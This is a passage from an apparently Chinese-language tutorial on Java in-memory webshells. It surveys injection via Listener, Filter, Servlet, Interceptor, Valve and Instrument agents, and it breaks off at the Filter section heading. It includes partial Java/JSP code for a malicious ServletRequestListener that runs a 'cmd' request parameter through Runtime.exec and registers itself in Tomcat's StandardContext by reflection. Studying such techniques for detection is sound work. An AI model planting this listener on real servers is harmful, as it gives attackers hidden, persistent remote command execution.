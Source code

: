 <a name="amSny"></a>
# **简介**
利用Java Web组件：动态添加恶意组件，如Servlet、Filter、Listener等。在Spring框架下就是Controller、Intercepter。<br />修改字节码：利用Java的Instrument机制，动态注入Agent，在Java内存中动态修改字节码，在HTTP请求执行路径中的类中添加恶意代码，可以实现根据请求的参数执行任意代码。<br />另外，在Tomcat 和 JBoss 中，还可以基于Valve组件添加恶意代码。<br />![](https://cdn.nlark.com/yuque/0/2024/png/38747917/1723016480005-51000dc8-f302-4354-b156-1dc32d9fd0bc.png#id=lvgdW&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />Listener，Filter，Servlet的关系如上图所示，<br />Listener 用于监听 Web 应用程序的特定事件（e.g. Session创建）<br />Filter 用于对 Web 资源进行预处理和后处理（e.g. 身份验证）<br />Servlet 则是 Web 应用程序的核心,用于处理客户端的请求并生成响应（e.g. 响应HTTP）。<br />![](https://cdn.nlark.com/yuque/0/2024/png/38747917/1723016480199-f43b5fed-270f-4caa-93e5-4627c17da590.png#id=UpNqq&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />Filter，Intercepter，Controller的关系如上图所示<br />Filter 位于最外层,对所有进出 Web 应用程序的请求和响应进行拦截和处理。<br />Interceptor 位于 Filter 和 Controller 之间,对进入 Controller 的请求进行拦截和处理。<br />Controller 位于最内层,负责具体的业务逻辑处理,并返回相应的 HTTP 响应。
<a name="ji8Xp"></a>
## **Listener类内存马**
Listener类内存马，实现方式如下：

1. 获取StandardContext上下文
2. 实现一个恶意Listener
3. 通过StandardContext#addApplicationEventListener方法添加恶意Listener

实例：
```java
......  
public class Shell_Listener implements ServletRequestListener {

    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
                ......                     
                <%
                // 通过反射获取 request 对象的 request 属性
                Field reqF = request.getClass().getDeclaredField("request");
                // 设置属性可访问
                reqF.setAccessible(true);
                // 获取 request 属性的值，转换为 Request 对象
                Request req = (Request) reqF.get(request);
                // 获取 Request 对象的 Context
                StandardContext context = (StandardContext) req.getContext();

                // 创建一个 Shell_Listener 对象
                Shell_Listener shell_Listener = new Shell_Listener();
                // 将 Shell_Listener 对象添加到 Context 中作为应用程序事件监听器
                context.addApplicationEventListener(shell_Listener);
                %>
```
<a name="NzGuR"></a>
## **Filter类内存马**
动态添加恶意Filter的思路如下
